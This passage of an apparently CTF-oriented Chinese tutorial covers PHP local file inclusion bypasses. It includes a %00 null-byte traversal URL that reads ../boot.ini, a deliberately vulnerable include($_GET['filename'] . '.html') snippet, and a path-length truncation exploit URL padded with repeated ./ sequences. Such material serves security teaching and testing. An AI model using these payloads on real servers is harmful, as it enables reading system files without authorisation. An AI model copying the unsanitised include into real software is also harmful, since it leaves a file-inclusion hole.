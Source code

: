 测试代码如下

```
http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00
```

这样其实就和文件上传的%00截断是一样的。







##### 2.	路径长度截断

条件：windows OS，点号需要长于256；linux OS 长于4096

> Windows下目录最大长度为256字节，超出的部分会被丢弃；
>
> Linux下目录最大长度为4096字节，超出的部分会被丢弃。

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename . ".html");
?>
```

EXP:

```
http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```



